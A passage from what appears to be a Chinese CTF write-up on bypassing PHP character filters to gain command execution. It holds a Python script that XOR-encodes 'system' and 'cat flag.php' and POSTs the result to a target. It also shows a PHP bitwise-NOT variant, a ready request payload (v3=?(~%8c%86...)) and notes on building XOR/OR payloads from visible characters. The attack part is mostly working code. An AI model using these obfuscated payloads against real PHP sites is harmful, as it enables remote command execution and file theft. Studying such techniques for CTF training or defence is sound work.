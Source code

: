```python
            if t[0] == i and t[2:5] == "%87":
            # print(i)
                s1 += t[2:5]
                s2 += t[6:9]
                break
    output = "(\""+s1+"\"^\""+s2+"\")"
    print(output + "\n")
    return output
    
param = action("system") + \
action("cat flag.php")
data = {
    'c': urllib.parse.unquote(param)
}
print(data)

r = requests.post(url, data=data)
print("\n[*] result:\n"+r.text)
```

#### 取反也行

```php
<?php
$a = "%8c%86%8c%8b%9a%92";
$b = "%9c%9e%8b%df%99%d5";
echo ~urldecode($a).PHP_EOL;//system
echo ~urldecode($b).PHP_EOL;//cat f*
echo 1?"aaa":"bbb";//输出aaa
?>
```

![](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669449868088-c2710a5e-1469-4f3b-ad97-d5868f1c5ffe.png#averageHue=%23fefefd&from=url&id=lr43R&originHeight=536&originWidth=1740&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```shell
v1=1&v2=0&v3=?(~%8c%86%8c%8b%9a%92)(~%9c%9e%8b%df%99%d5):
```

#### 注意点

对于生成结果的问题：
:::info

- 对于下面这种方式，直接生成的就是可以执行的参数，不用再加单引号，也就是形式是(system)(ls)，

经过测试发现也不一定，有的不加单引号也执行不了。<br />`(system)(ls) ('system')('ls') ("system")("ls")`**都有可能**

- 只不过括号里面对应的是或运算的结果
- 把下面的或运算改了，会生成对应运算符的字符集
- **在用异或(^)要用可见字符,在用或( | )运算的时候，发现其实也不一定······· **
- 对于结果，最好选择在一个生成字符的区域内和ASCII码值32-128对应的字符差不多的去生成，且最好前缀都一样，**同样针对异或(^)，因为可以找到很多个块，对于或运算，可以让脚本自己跑**

也就是：<br /> 	对于(system)(ls)<br />("%87%87%87%87%87%87"^"%f4%fe%f4%f3%e2%ea")("%87%87"^"%eb%f4")

- 因此上面限制了t[2:5] == "%87" 就是为了这个目的
  :::
  对于ASCII码，16进制的问题：
